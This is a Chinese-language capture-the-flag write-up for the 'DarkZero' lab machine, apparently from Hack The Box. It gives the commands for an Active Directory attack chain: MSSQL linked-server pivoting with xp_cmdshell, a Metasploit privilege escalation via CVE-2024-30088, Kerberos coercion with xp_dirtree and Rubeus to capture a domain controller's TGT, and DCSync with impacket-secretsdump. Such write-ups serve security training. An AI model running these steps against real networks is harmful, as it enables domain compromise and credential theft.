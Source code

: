 ```yaml
---
title: DarkZero
weight: 754
tags:
  - windows
  - hard
  - mssql
  - rubeus
  - kud
  - cve-2024-30088
---
```


![darkzero_rank.png](darkzero_rank.png)

## 00. 摘要

1. 靶机提供了初始账户 `john.w / RFulUtONCOL!`
2. 信息收集，发现该账户可以登录mssql服务
3. 在mssql中 `enum_link` 发现可以 `use_link "DC02.darkzero.ext"`
4. 然后上传msf，用 `local_exploit_suggester` 搜索本地提权
5. 用 CVE-2024-30088提权到SYSTEM
6. 然后在DC02上使用Rubeus监听，在DC01的mssql上使用 xp_dirtree 访问DC02上不存在的文件共享，触发Kerberos认证，拿到`DC01$`的TGT
7. 保存该TGT。然后通过票据传递使用 DCSync 获取整个域的哈希。

## 01. 信息收集

端口扫描发现以下开放端口

```bash
$ rustscan -u 5000 -a 10.129.189.255
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned my computer so many times, it thinks we're dating.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.189.255:53
Open 10.129.189.255:88
Open 10.129.189.255:135
Open 10.129.189.255:139
Open 10.129.189.255:464
Open 10.129.189.255:593
Open 10.129.189.255:636
Open 10.129.189.255:1433
Open 10.129.189.255:445
Open 10.129.189.255:389
Open 10.129.189.255:2179
Open 10.129.189.255:5985
Open 10.129.189.255:9389
Open 10.129.189.255:49664
Open 10.129.189.255:49668
Open 10.129.189.255:49676
Open 10.129.189.255:49677
Open 10.129.189.255:49897
Open 10.129.189.255:49926
Open 10.129.189.255:50004
Open 10.129.189.255:55333
```

使用预先提供的 `john.w` 账户进行枚举，发现可以访问 mssql 服务。使用 `impacket-mssqlclient` 连接 mssql 并进行 `enum_link` 发现存在一个 `DC02.darkzero.ext` 的 link 可以使用。

```bash
impacket-mssqlclient 'john.w':'RFulUtONCOL!'@'10.129.189.255' -windows-auth
SQL > enum_links
```

## 02. DC02

### 02.02 DC02用户权限

参考 [MSSQL](/blog/MSSQL)  可以使用 use_link 横向移动到 DC02 上。

然后我们使用 `enable_xp_cmdshell` 启用 `xp_cmdshell`。

在执行 `xp_cmdshell "whoami"` 可以看到当前是 `svc_sql` 账户权限

```bash
SQL > use_link "DC02.darkzero.ext"
SQL > enable_xp_cmdshell
SQL > xp_cmdshell "whoami"
```

### 02.02 DC02管理员权限

生成一个 msf 的shell传到服务器上并执行，得到 `svc_sql` 权限的 `meterpreter`。

然后利用 msf 的 `local_exploit_suggester` 模块，扫描可用的本地提权模块

逐个尝试之后，发现可以使用 `exploit/windows/local/cve_2024_30088_authz_basep` 进行提权。拿到 `SYSTEM` 权限

## 03. DC01

既然有 DC02 的 `SYSTEM` 权限了，我们就可以监听任何向 DC02 发起的 Kerberos 认证，并捕获 认证过程中所使用的 `TGT` 了。然后利用捕获到的 `TGT` 进行 Pass The Ticket 票据传递攻击。

首先往 DC02 上，上传 `Rubeus.exe` （目的是监听Kerberos认证并捕获TGT，可以直接从github下载[编译好的Rubeus](https://github.com/Flangvik/SharpCollection)）

```bash
Rubeus.exe monitor /interval:5 /nowrap
```

然后在 DC01 上，使用 `xp_dirtree //DC02.darkzero.ext/shares` 访问任意一个不存在的 共享目录，触发 Kerberos 认证。

这样就可以捕获到 `DC01$` 这台机器的 TGT 了，然后使用票据传递进行 DCSync 拖取整个域的哈希。

```bash
cat TGT | base64 -d > dc01.kirbi
impacket-ticketConverter dc01.kirbi dc01.ccache

export KRB5CCNAME="dc01.ccache"
impacket-secretsdump 'DC01$'@'DC01.darkzero.htb' -k -no-pass
```

---


{{< asciinema file="exp.cast" poster="npt:0:65" markers="82.0:登录mssql, 96.0:enum_link, 99.0:use_link, 108:enable_xp_cmdshell, 113.0:xp_cmdshell, 120.0:生成msf shell, 125.0:上传msf shell, 140.0:msf开启监听, 186.0:svc_sql上线, 197:探测可用的提权模块, 244:使用CVE-2024-30088提权, 278:上传Rubeus.exe, 302:运行Rubeus开始监听, 325:在DC01的mssql上使用xp_dirtree触发Kerberos认证, 364:捕获到DC01$的TGT, 387:将TGT转换为ccache, 453:票据传递DCSync, 483:Debug发现时间不同步导致Kerberos认证失败 " >}}